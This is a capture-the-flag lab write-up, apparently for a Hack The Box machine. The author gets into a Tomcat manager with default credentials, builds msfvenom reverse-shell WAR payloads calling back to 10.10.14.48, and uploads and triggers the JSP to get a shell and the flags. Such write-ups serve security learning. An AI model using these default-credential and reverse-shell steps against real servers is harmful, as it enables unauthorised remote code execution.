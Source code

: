 http://10.10.10.95:8080/

http://10.10.10.95:8080/manager/


When trying to enter wrong credentials we get an error saying authentication failed and how we can create an ID in tomcat app  with an example credentails of

tomcat
s3cret


upon trying i see we can login using these credentials


http://10.10.10.95:8080/manager/html

now here we see we can upload a .war file and upon uploading we can also executie the file


used below link to create a payload in .war format

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

paylaod used is

msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war


However it was not working so used the Ippsec video walkthrough to get hint


found out i had to change the paylaod and customize it for our target

Now as per walkthrough video

1.
┌──(root💀kali)-[~/Desktop/THM]
└─# msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.48 LPORT=4444 -f war > reverse.war 

2.

┌──(root💀kali)-[~/Desktop/THM]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.48 LPORT=4444 -f war > reverse2.war



both shells could work but since size of reverse2.war is smaller we should use the


started a reverse meterpreter tcp listener in metasploit 


and uploaded reverse2.war to target url

None of it is working


Found this video
https://www.youtube.com/watch?v=Y-_DGarQkg8

This greatly explains the payload building though process for msfvenom

Okay realized my mistake 

there was an additional step.

.war is like a .zip file which containes multiple files in it


so the actual paylaod was a .jsp file inside the .war file


used below command to create a paylaod

┌──(root💀kali)-[~/Desktop/THM]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.48 LPORT=1337 -f war -o reverse.war  

used this command to see the name of .jsp file inside the .war file

┌──(root💀kali)-[~/Desktop/THM]
└─# jar tf reverse.war


now uploaded the .war fie on target url

http://10.10.10.95:8080/manager/html/

now here you can click on the filename you uplaoded 
in my case it was 
/reverse.war


click on it

after clicking on it you get an error but when you add the .jsp file name ahead of it like this



http://10.10.10.95:8080/reverse/bqkucuxmtb.jsp


you w\ill get a blank screen

this indiates the script was executed by the application 


got a reverse connection on port 1337


and got both flag in single file




